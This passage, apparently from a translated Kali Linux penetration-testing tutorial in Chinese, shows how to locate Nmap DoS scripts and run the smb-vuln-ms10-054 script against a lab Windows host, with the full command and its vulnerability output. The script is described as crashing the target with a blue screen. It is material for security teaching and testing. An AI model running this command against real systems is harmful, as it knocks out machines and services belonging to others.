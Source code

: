 通过从`script.db`文件中使用`grep`搜索 DoS，然后将输出通过管道传递到`cut`函数，我们可以提取可用的脚本。 通过阅读任何一个脚本的头部，我们通常可以找到很多有用的信息：

```
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-054.nse | more 
local bin = require "bin" 
local msrpc = require "msrpc" 
local smb = require "smb" 
local string = require "string" 
local vulns = require "vulns" 
local stdnse = require "stdnse"

description = [[ 
Tests whether target machines are vulnerable to the ms10-054 SMB remote memory 
corruption vulnerability.

The vulnerable machine will crash with BSOD. 

The script requires at least READ access right to a share on a remote machine. 
Either with guest credentials or with specified username/password. 
```

为了从上到下读取脚本，我们应该对文件使用`cat`命令，然后通过管道输出到`more`工具。 脚本的头部描述了它所利用的漏洞以及系统必须满足的条件。 它还解释了该漏洞将导致蓝屏死机（BSOD）DoS。 通过进一步向下滚动，我们可以找到更多有用的信息：

```
-- @usage nmap  -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe --- @args unsafe Required to run the script, "safty swich" to prevent running it by accident -- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs) 
-- @usage nmap  -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe --- @args unsafe Required to run the script, "safty swich" to prevent running it by accident -- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs) 

-- @output -- Host script results: -- | smb-vuln-ms10-054: -- |   VULNERABLE: -- |   SMB remote memory corruption vulnerability -- |     State: VULNERABLE -- |     IDs:  CVE:CVE-2010-2550 -- |     Risk factor: HIGH  CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/ A:C) -- |     Description: -- |       The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, -- |       Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 -- |       does not properly validate fields in an SMB request, which allows remote attackers -- |       to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
```

在脚本中，我们可以找到脚本用法和脚本提供的参数的描述。 它还提供了有关其利用的漏洞的其他详细信息。 要执行脚本，我们需要在 Nmap 中使用`--script`选项：

```
root@KaliLinux:~# nmap -p 445 172.16.36.134 --script=smb-vuln-ms10-054 --script-args unsafe=1

Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-28 23:45 EST 
Nmap scan report for 172.16.36.134 
Host is up (0.00038s latency). 
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
| smb-vuln-ms10-054: 
|   VULNERABLE: 
|   SMB remote memory corruption vulnerability 
|     State: VULNERABLE 
|     IDs:  CVE:CVE-2010-2550
|     Risk factor: HIGH  CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/A:C) 
|     Description: 
|       The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, 
|       Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 
|       does not properly validate fields in an SMB request, which allows remote attackers 
|       to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
```

